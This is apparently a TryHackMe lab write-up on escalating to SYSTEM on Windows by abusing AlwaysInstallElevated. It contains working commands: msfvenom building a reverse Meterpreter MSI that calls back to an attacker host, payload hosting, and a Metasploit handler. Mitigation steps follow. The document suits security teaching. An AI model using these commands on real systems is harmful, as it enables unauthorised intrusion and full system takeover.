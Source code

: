 ```yaml
---
title: "Exploiting AlwaysInstallElevated for Windows Privilege Escalation"
date: 2025-05-06
categories: [Privilege Escalation, Windows, TryHackMe]
tags: [windows, privilege-escalation, alwaysinstallelevated, msfvenom, metasploit, pentesting, tryhackme]
excerpt: "A walkthrough of exploiting the AlwaysInstallElevated misconfiguration on Windows to escalate from user to SYSTEM using a malicious MSI payload."
---
```


## 🧠 Summary

In this walkthrough, I exploited the **AlwaysInstallElevated** privilege escalation technique on a vulnerable Windows machine. When both `HKLM` and `HKCU` registry keys for AlwaysInstallElevated are set to `1`, any `.msi` file executed by a standard user will run with SYSTEM-level privileges. Below is a step-by-step breakdown of how I leveraged this misconfiguration to gain SYSTEM access.

---

## 🔍 Step 1: Confirming Registry Vulnerability

After gaining initial access to the target machine, I checked the registry for AlwaysInstallElevated values:

```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-d0217aef-d8d1-4180-a572-0d7d963fee57.png" alt="AlwaysInstallElevated Registry Settings">
  <figcaption>Registry keys confirming AlwaysInstallElevated is enabled</figcaption>
</figure>

Both were set to `0x1`, confirming the system is vulnerable.

---

## 💣 Step 2: Creating a Malicious MSI Payload

On my Kali attack box, I generated a reverse Meterpreter payload in MSI format using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.119.123 -f msi -o setup.msi
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-dac45580-fd7a-43ff-9608-5d0cf761fd66.png" alt="Generating malicious MSI payload">
  <figcaption>MSFVenom command to generate the setup.msi payload</figcaption>
</figure>

---

## 🌐 Step 3: Hosting the Payload

I used Python to host the `.msi` file over HTTP:

```bash
python3 -m http.server 80
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-fc733b2c-6bb8-4e76-b2db-65a506a5c996.png" alt="Payload served over HTTP">
  <figcaption>HTTP server log showing the victim downloading setup.msi</figcaption>
</figure>

---

## 📥 Step 4: Downloading and Executing on Victim Machine

On the victim machine, I opened Internet Explorer and navigated to the Kali host IP to download the payload.

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-aaf86794-c15e-416d-b8e4-30828288e1e4.png" alt="Browsing to download the payload">
</figure>

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-b6d18942-bad8-4e4d-904c-a554c1eb73dd.png" alt="Setup.msi file download prompt">
  <figcaption>Payload download via Internet Explorer</figcaption>
</figure>

---

## 🧠 Step 5: Listener Setup and Shell Access

On my Kali box, I launched a Metasploit listener to catch the reverse shell:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.2.119.123
run
```

<figure>
  <img src="/assets/images/blog/windows-privesc/2025-05-06-cc623f40-4eaa-41ab-aae5-46350e83e3fe.png" alt="Meterpreter SYSTEM shell">
  <figcaption>Confirmed SYSTEM-level Meterpreter shell from payload execution</figcaption>
</figure>

The payload executed with SYSTEM privileges, as confirmed by the `getuid` command.

---

## 🛡️ Mitigation

To prevent this type of privilege escalation:
- Set `AlwaysInstallElevated` to `0` in both `HKLM` and `HKCU`:
  ```
  reg add HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
  reg add HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
  ```
- Restrict user ability to run `.msi` installers
- Use endpoint monitoring to alert on privilege escalations

---

## 🔗 MITRE ATT&CK Mapping

- **T1548.002 – Abuse Elevation Control Mechanism: Bypass User Access Control**

---

✅ **Success**: I escalated from user to SYSTEM by abusing AlwaysInstallElevated and a malicious MSI payload. Always validate registry settings during post-exploitation recon!

Stay sharp, and happy hacking! 🛠️
